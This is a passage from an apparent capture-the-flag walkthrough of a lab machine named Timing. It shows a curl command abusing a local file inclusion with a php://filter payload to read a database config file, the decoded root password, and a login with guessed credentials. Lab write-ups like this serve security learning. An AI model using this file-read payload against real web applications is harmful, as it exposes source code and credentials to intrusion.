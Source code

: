 ![](/assets/img/posts/timing/image-php-scr.png)

got database creds from `db_conn.php`
```php
❯ curl -s 'http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=db_conn.php' | base64 -d
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

* **Creads: `root:4_V3Ry_l0000n9_p422w0rd`**

Get logged in with `aaron:aaron` on webapp but still nothing.

![](/assets/img/posts/timing/aaron-loggedin.png)
